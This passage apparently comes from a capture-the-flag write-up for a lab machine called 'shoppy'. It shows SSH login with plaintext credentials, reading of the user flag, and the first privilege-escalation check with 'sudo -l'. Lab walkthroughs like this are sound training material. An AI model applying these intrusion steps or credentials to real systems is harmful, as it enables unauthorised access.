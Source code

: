 > We got some `ssh` credentials: `jaeger:Sh0ppyBest@pp!`
{: .prompt-info }

## logging in via `ssh`
```bash
$ ssh jaeger@10.10.11.180                           
The authenticity of host '10.10.11.180 (10.10.11.180)' can't be established.
ED25519 key fingerprint is SHA256:RISsnnLs1eloK7XlOTr2TwStHh2R8hui07wd1iFyB+8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.180' (ED25519) to the list of known hosts.
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$
```

> And we got a shell :-)
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  shoppy_start.sh  Templates  user.txt  Videos
jaeger@shoppy:~$ cat user.txt
c******************************4
```

## privilege escalation
At first we are checking if we are allowed to execute commands as a super user.
```bash
$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

